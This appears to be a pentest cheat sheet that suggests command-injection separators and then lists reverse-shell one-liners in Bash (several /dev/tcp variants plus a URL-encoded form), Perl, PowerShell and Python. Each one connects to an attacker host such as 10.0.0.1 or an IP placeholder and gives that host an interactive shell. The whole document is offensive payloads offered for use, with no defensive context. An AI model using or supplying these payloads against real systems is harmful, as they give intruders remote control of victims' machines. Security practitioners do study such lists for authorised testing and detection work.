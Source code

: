 Try the following command separators: ;, &&, \|, \|\|

##### <span id="anchor-69"></span>Bash v1

```
bash -i &gt;& /dev/tcp/10.0.0.1/8080 0&gt;&1
```

##### <span id="anchor-70"></span>Bash v1.5

```
bash -c 'bash -i &gt;& /dev/tcp/&lt;ip&gt;/&lt;port&gt; 0&gt;&1'
```

##### <span id="anchor-71"></span>Bash v2

```
bash -c 'exec 5&lt;&gt;/dev/tcp/&lt;ip&gt;/&lt;port&gt;; while read line 0&lt;&5; do $line 2&gt;&5 &gt;&5; done'
```

##### <span id="anchor-72"></span>Bash v3

```
bash -c 'exec 5&lt;&gt;/dev/tcp/&lt;ip&gt;/&lt;port&gt;; cat &lt;&5 \| while read line; do $line 2&gt;&5 &gt;&5; done'
```

##### <span id="anchor-73"></span>URL Encoded

```
bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F**&lt;address&gt;**%2F**&lt;port&gt;**%200%3E%261%27
```

##### <span id="anchor-74"></span>Perl

```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF\_INET,SOCK\_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr\_in($p,inet\_aton($i)))){open(STDIN,"&gt;&S");open(STDOUT,"&gt;&S");open(STDERR,"&gt;&S");exec("/bin/sh -i");};'
```

##### <span id="anchor-75"></span>PowerShell

```
$client = New-Object System.Net.Sockets.TCPClient('**&lt;IP\_Address&gt;**',**&lt;port&gt;**);$stream = $client.GetStream();\[byte\[\]\]$bytes = 0..65535\|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2&gt;&1 \| Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '&gt; ';$sendbyte = (\[text.encoding\]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};
```

##### <span id="anchor-76"></span>Python

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\["/bin/sh","-i"\]);'
```

